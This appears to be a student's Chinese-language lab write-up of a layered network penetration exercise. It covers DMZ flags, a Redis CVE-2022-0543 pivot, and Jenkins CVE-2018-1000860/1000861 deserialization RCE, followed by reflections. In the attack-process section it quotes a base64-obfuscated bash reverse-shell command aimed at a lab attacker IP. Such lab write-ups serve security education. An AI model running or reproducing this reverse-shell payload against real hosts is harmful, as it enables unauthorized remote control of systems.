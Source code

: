 # 个人实验结果报告

---

### 实验环境
- 主机系统:Kali Linux

### 实验成果
- 完成对DMZ的攻击(见下文)
```
完成了五个靶标的获取
```
![](./image/flag1.png)
![](./image/flag2.png)
![](./image/flag3.png)
![](./image/flag4.png)
![](./image/flag5.png)
- 完成对第二层内网Jenkins漏洞的攻击(见下文)
```
任务内容：在redis漏洞；cve-2022-0543的容器中对下一层内网，进行扫描，找到靶机，并将其攻陷

1. 靶标访问入口，通过metasploit中的tcp扫描发现内网的主机
```
  ![](./image/redis.png)
  ![](./image/meterpreter.png)
  ![](./image/tcp扫描.png)
  ---
```
  
  ###### 2. 漏洞原理简述
  Jenkins 2.153 及更早版本、LTS 2.138.3 及更早版本使用的 Stapler Web 框架中存在一个代码执行漏洞，该漏洞位于 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，允许攻击者通过访问构建的 URL 来调用 Java 对象上的某些方法，而这些 URL 并不打算以这种方式调用。
  该漏洞是一个高危的**反序列化远程代码执行（RCE）**漏洞，核心问题在于：
```
  ![](./image/高危.png)
  ![](./image/弱点.png)
```
  - 漏洞链触发 
    由两个CVE共同构成完整攻击链：
    1. CVE-2018-1000860: Stapler框架的CSRF防护绕过漏洞（通过`__stapler_bypass_crumb`参数）。
    2. CVE-2018-1000861: Stapler路由机制中的**不安全反序列化**漏洞。
  - 关键缺陷点  
    Jenkins的Stapler框架在解析HTTP请求时，允许攻击者通过特殊构造的参数名（如 `[descriptor].class`）传递**序列化的Java对象**。由于缺乏安全的反序列化验证：
    - 攻击者可注入包含恶意逻辑的 `org.codehaus.groovy.runtime.MethodClosure` 对象。
    - 该对象在反序列化时触发 `MethodClosure#call()` 方法，最终通过Groovy动态执行特性执行任意命令。
  - 攻击过程
     使用`python2 exp.py http://192.170.84.2:8080/ "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNC8xMjMzMyAwPiYxCg == } | {base64, -d} | {bash, -i}"`
    嵌套的Base64编码反弹Shell指令代码进行攻击，他的功能是建立反向TCP连接到攻击者IP 192.168.56.104 的 12333 端口
```
```
3. 漏洞存在性检测
DNSLOG回显确认漏洞存在
通过上述的攻击代码编写嵌套的shell命令，使靶机区访问dnslog网址
4.漏洞利用效果检测
建立远程网络代理
连通性测试
使攻击机对靶机进行反弹shell攻击
监听得到shell，获取flag
```
![](./image/回显测试.png)
![](./image/回显.png)
![](./image/socks.png)
![](./image/连通测试.png)
![](./image/攻击成功.png)
![](./image/监听.png)
---

# 个人实践心得体会
我主要负责两个核心部分：**DMZ区域的完整攻击链构建**以及**三层内网环境中从第一层到第二层的渗透攻击**。其中，第二阶段的自设三层内网攻击任务对我的技术成长产生了深远影响，以下是我在过程中的主要收获：

### 一、核心贡献与技术突破
#### 独立完成未知漏洞攻防（主要贡献）
在第二阶段的三层内网攻击任务中，我首次在没有引路人的情况下，独立完成了对未知漏洞的完整攻击链构建：

- 从零开始进行信息收集，深入分析漏洞成因（包括底层机制和触发条件）
- 研究漏洞利用方式，开发了针对性的攻击向量
- 最终成功实现对第二层内网的权限突破

这项工作不仅考验技术能力，更锻炼了从黑盒状态还原漏洞全貌的系统性思维，是我认为最具技术含量的突破。

#### 攻击路径设计
- 在无metasploit使用的情况下，使用第一层内网原生容器进行攻击（因为metasploit容器崩溃），原生容器不易崩溃，实验更加稳定
- 在有metasploit使用的状况下，进行攻击

### 二、印象深刻的Bug与解决方案
#### Metasploit容器静默崩溃问题（关键Bug）
- 在初期方案中遭遇最棘手的Bug：
- Metasploit容器会随机崩溃且无错误日志（平均每30分钟发生1次），就是metasploit中虽然容易依旧存活，但是在连通性测试中已经不再连通了

#### 崩溃导致所有持久化连接中断，攻击链不可靠
解决方案是：改用原生Shell持久化连接替代Metasploit会话

### 三、协作带来的升级
与陈思源同学的深度合作为攻击方案带来质的飞跃：

####  多维攻击视角的融合

- 我的初始方案：基于漏洞本身的攻击链

- 陈思源的补充方案：爆破+权限组合攻击

### 四、核心成长与认知突破
漏洞认知的维度扩展
#### 从单纯利用漏洞升级到系统化思考：

- 漏洞本身的攻击面
- 配套设施的缺陷
- 环境交互产生的衍生漏洞

---

本次经历让我深刻体会到：真正的安全攻防不是工具的使用，而是面对未知系统时，从混沌中建立认知框架的能力。